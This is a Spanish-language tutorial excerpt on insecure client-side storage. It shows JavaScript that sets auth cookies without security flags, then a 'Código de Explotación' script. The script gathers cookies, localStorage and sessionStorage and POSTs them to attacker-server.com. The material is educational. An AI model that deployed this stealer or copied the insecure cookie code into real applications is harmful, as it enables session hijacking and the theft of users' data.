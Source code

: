 ### Cookies Inseguras

```javascript
// Establecer cookies sin atributos de seguridad
function setAuthCookie(token) {
  // VULNERABLE: Cookie sin HttpOnly, Secure o SameSite
  document.cookie = `authToken=${token}; path=/`;
}

// Almacenar datos sensibles en cookies accesibles por JavaScript
function rememberUser(user) {
  // VULNERABLE: Datos sensibles en cookie accesible por JavaScript
  document.cookie = `userData=${JSON.stringify(user)}; path=/; max-age=2592000`;
}
```

## Código de Explotación

Un atacante que logra ejecutar código JavaScript en el contexto de la aplicación (por ejemplo, mediante XSS) podría robar los datos sensibles almacenados en el cliente:

```javascript
// Script malicioso para robar datos del cliente
function stealClientStorage() {
  const stolenData = {
    url: window.location.href,
    localStorage: {},
    sessionStorage: {},
    cookies: document.cookie
  };
  
  // Robar localStorage
  for (let i = 0; i < localStorage.length; i++) {
    const key = localStorage.key(i);
    if (key) {
      stolenData.localStorage[key] = localStorage.getItem(key);
    }
  }
  
  // Robar sessionStorage
  for (let i = 0; i < sessionStorage.length; i++) {
    const key = sessionStorage.key(i);
    if (key) {
      stolenData.sessionStorage[key] = sessionStorage.getItem(key);
    }
  }
  
  // Enviar datos robados al servidor del atacante
  fetch('https://attacker-server.com/collect', {
    method: 'POST',
    body: JSON.stringify(stolenData),
    mode: 'no-cors' // Evitar errores CORS
  });
}

// Ejecutar inmediatamente
stealClientStorage();
```
